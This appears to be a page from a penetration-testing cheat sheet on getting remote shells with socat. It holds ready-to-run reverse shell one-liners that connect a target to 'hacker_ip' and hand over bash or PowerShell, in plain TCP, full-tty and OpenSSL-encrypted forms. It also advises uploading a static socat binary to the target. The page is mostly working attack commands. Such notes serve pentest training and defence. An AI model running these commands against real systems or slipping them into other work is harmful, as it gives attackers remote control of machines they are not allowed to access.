 # socat

[Go back](../index.md#remote-shell-)

<div class="row row-cols-md-2"><div>

socat is a command similar to netcat. Similarely to other wrappers, it can be used for a client or a server, but with socat, you will mostly use a wrapper for both sides.
</div><div>

🔥 On the target, you can upload a [static binary of socat](https://github.com/andrew-d/static-binaries/tree/master/binaries) as the command/executable is most likely not present.
</div></div>

<hr class="sep-both">

## TCP shell - stdin

<div class="row row-cols-md-2 mt-3"><div>

*Linux server*

```shell!
$ socat TCP-L:port -
```
</div><div>

*Linux/Windows Client*

```ps
$ socat TCP:hacker_ip:port EXEC:"bash -li"
PS> socat TCP:hacker_ip:port EXEC:powershell.exe,pipes
```
</div></div>

<hr class="sep-both">

## TCP shell - tty

<div class="row row-cols-md-2 mt-3"><div>

*Linux server*

```shell!
$ socat TCP-L:port FILE:`tty`,raw,echo=0
```
</div><div>

*Linux client*

```ps
$ socat TCP:hacker_ip:port EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
</div></div>

<hr class="sep-both">

## Encrypted shell 🔥

<div class="row row-cols-md-2 mt-3"><div>

You first need to generate a certificate:

```ps
$ openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
$ cat shell.key shell.crt > shell.pem
```
</div><div>

*Linux server*

```shell!
$ socat OPENSSL-LISTEN:port,cert=shell.pem,verify=0 [...]
```

*Linux client*

```ps
$ socat OPENSSL:hacker_ip:port,verify=0 [...]
```
</div></div>